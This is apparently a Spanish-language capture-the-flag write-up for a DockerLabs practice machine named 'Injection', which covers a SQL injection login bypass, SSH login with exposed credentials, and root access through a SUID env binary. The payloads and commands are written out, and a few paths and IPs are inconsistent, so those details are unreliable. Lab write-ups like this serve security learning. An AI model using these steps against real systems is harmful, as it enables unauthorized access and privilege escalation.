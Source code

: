 # Información de la Máqina
    ## Nombre: Injection
    ## Tipo: DockerLabs
    ## IP: 127.17.0.2
    ## Objetivo: Escalada de Privilegios a root

# 1.- Enumeración Inicial
Al acceder al servicio web en el puerto 80, se encuentra un formulario de login.
### Dominio Web:
![Dominio_Web](capturas/Injection_Dominio_Web.png)
### Pagina Web:
![Pagina_Web](capturas/Injection_Dominio_Web_Pagina.png)

# 2.- Explotación
Se prueba una Injección SQL clásica en el campo username:
```vbnet
' or 1=1-- -
```
![Injeccion_SQL](capturas/Injection_Dominio_Web_Injeccion_SQL.png)

### Con cualquier contraseña, el login se bypassa con éxito.
### El sistema muestra un nombre de usuario Dylan y una contraseña asociada.
![Datos_Sensibles](capturas/Injection_Dominio_Web_Muestra_Contrasena.png)

### Evidencia: Contraseña Guardada en:
```bash
Puntos_de_Encuentro/Password_Dylan.txt
```

# 3.- Movimiento lateral
Con las credenciales obtenidas, se establece conexión SSH:
```nginx
ssh dylan@172.17.0.2
```
![SSH](capturas/Injection_SSH_Completado.png)
Acceso exitoso como el usuario dylan

# 4.- Escalada de Privilegios
Se enumeran los binarios con bit SUID:
```javascript
find / -perm -4000 2>/dev/null
```
![Numeracion_Binarios](capturas/Injection_Escalado_Privilegios_2.png)
Se detecta /usr/bin/env con privilegios elevados.
### Ejecución del binario para escalar:
```bash
/src/bin/env /bin/sh -p
```
![Acceso_Root](capturas/Injection_Escalado_Privilegios_3_Final.png)
### Evidencia guardada en:
```bash
Puntos_de_Encuentro/Esclado_Privilegios.txt
```

# 5.- Resultado Final
Acceso root conseguido:
```bash
id
uid=0(root) gid=0(root) groups=0(root)
```

# Conclusiones
> La máquina es vulnerable a un SQL Injection que permite burlar la autenticación. 
> Las credenciales expuestas facilitan acceso vía SSH. 
> La presencia de un binario SUID (env) mal configurado permite la escalada directa a root. 
